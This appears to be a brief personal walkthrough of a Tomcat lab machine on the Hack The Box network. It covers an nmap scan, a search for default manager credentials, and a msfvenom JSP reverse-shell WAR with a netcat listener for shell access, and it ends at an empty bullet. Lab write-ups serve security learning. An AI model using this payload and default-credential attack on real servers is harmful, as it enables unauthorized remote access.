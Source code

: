 # Nmap
---
- `nmap -sV -sC -Pn -T4 -oN nmap/nmap_common 10.10.10.95 10.10.10.95`
	![[Pasted image 20250715064054.png]]


# Exploitation
---
- Open port 8080 on browser and access the `/manager` page.
- Search for default credentials using `creds`:
	- `creds search tomcat `
	- ![[Pasted image 20250715064145.png]]
- Generate msfvenom payload and listen for shell:
	- `msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.51 lport=1234 -f war > shell.war`
	- `nc -lvpn 1234`
- Upload and get shell:
	- ![[Pasted image 20250715064244.png]]
	- ![[Pasted image 20250715064250.png]]
- 